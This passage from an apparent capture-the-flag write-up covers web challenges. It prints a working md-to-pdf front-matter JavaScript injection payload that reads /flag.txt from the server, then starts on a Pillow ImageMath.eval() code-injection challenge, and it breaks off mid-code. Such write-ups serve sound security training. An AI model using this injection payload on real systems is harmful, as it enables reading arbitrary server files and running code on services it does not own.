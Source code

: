 ```
        "sqlite-async": "1.1.3",
        "uuid": "8.3.2"
    },
    "devDependencies": {
        "nodemon": "^1.19.1"
    }
}
```

[https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

That issue already shows the payload, We could make use of that to implement it to this challenge.

We tweaked the payload little bit and we managed to get the **FLAG**

```markdown
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').toString()}"; display: block }`,
}
---
```

![](blinker-3.png)

**HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**


### Amidst Us (300 points)

The value of this challenge is 300 points and +500 players have solved this challenge.

![](amidst-1.png)

We're given a website with a feature for changing the color of the uploaded image.

![](amidst-2.png)

In this challenge, the author gives us a source code, We could make use of this for analyzing the source code.

Same with before, we checked out the _dependency_ first and find out the application uses an obsolete `Pillow` version. In this version, we could find an issue on GitHub.

[https://github.com/python-pillow/Pillow/pull/5923](https://github.com/python-pillow/Pillow/pull/5923)

And in the _source code_ `challenge/application/util.py#L:16`, the parameter coior is passed into `ImageMath.eval()` function.

```python
alpha = ImageMath.eval(
            f'''float(
                max(
                max(
                    max(
                    difference1(red_band, {color[0]}),
                    difference1(green_band, {color[1]})
                    ),
                    difference1(blue_band, {color[2]})
                ),
                max(
                    max(
                    difference2(red_band, {color[0]}),
                    difference2(green_band, {color[1]})
                    ),
                    difference2(blue_band, {color[2]})
```